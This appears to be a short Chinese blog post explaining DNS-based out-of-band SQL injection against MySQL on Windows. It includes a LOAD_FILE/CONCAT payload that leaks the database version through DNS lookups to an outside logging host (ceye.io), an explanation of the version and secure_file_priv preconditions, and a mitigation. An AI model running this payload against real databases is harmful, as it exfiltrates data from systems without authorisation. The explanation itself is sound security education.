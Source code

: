 ```yaml
---
title: MySQL利用DNS实现注入总结
date: 2019-04-05 16:11:37
tags: SQL注入 WEB安全
---
```


这个利用方式只能在Windows下利用，而且对mysql的版本也有限制：***mysql版本必须小于5.5.53***。

测试语句：

```
SELECT LOAD_FILE(CONCAT('\\\\',version(),'.a.ceshia.ag5dgy.ceye.io\\abc'))

```

利用的DNS记录平台是 [ceye](http://ceye.io/records/dns)。

之所以只有windows下可以使用，是因为利用了windows的

```
\\127.0.0.1\1.txt
```
这种文件访问机制触发了dns解析问题，在linux下不存在此问题。

版本限制是因为在Mysql当中存在一个secure_file_priv全局变量，这个变量在5.5.53版本以前是null，就是关于load_file,outfile没有安全限制。之后的版本添加了安全限制。


```
这些函数是需要绝对路径的
如果secure_file_priv变量为空那么直接可以使用函数,如果为null是不能使用
但在mysql的5.5.53之前的版本是默认为空,之后的版本为null,所有是将这个功能禁掉了
```

另外，MySQL之所以能够解析域名，是因为

```
show variables like 'skip_name_resolve%';
```

skip_name_resolve 这个参数为OFF，修复方案就是将这个参数设置为ON，但是这样有可能影响正常业务，谨慎评估。



